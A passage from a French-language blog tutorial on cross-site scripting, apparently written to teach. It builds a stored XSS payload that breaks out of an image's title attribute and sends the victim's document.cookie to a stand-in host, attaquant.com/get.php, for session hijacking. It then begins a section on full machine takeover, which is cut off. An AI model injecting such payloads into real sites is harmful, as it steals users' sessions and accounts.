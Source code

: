 Enfin, pour que la victime accède à l'URL avec ses cookies, l'attaquant peut utiliser une redirection :

```javascript
document.location
```

Cela permet de construire la charge utile finale. En reprenant l'exemple pris dans l'introduction avec l'image, l'attaquant enverra comme description

```
Une image" /><script>document.location="http://attaquant.com/get.php?v=" + document.cookie;</script><p class="
```

La page contenant l'image deviendra alors

```html
<img src="./chat.jpg" title="Une image" /><script>document.location="http://attaquant.com/get.php?v=" + document.cookie;</script><p class="" />
```

Et plus clairement, si on met les indentations (qui n'ont pas d'effet sur le code)

```html
<img src="./chat.jpg" title="Une image" />
<script>
  document.location="http://attaquant.com/get.php?v=" + document.cookie;
</script>
<p class="" />
```

Lorsque la victime accède à la page piégée, alors elle sera redirigée vers le site de l'attaquant avec ses cookies en paramètres, cookies qui seront enregistrés par le site de l'attaquant dans un fichier `cookies.txt`. L'attaquant peut alors se connecter sur le compte de la victime en utilisant ses cookies.

## Allons plus loin

Quand beaucoup de sites s'arrêtent ici pour l'explication des attaques XSS, nous allons voir comment une personne mal intentionnée peut prendre le contrôle total de la machine de la victime à l'aide d'une faille permettant cette attaque et d'un peu de social engineering.

Voici l'environnement de test que j'ai mis en place pour cet exemple

[![configuration](/assets/uploads/2017/09/configuration.png)](/assets/uploads/2017/09/configuration.png)
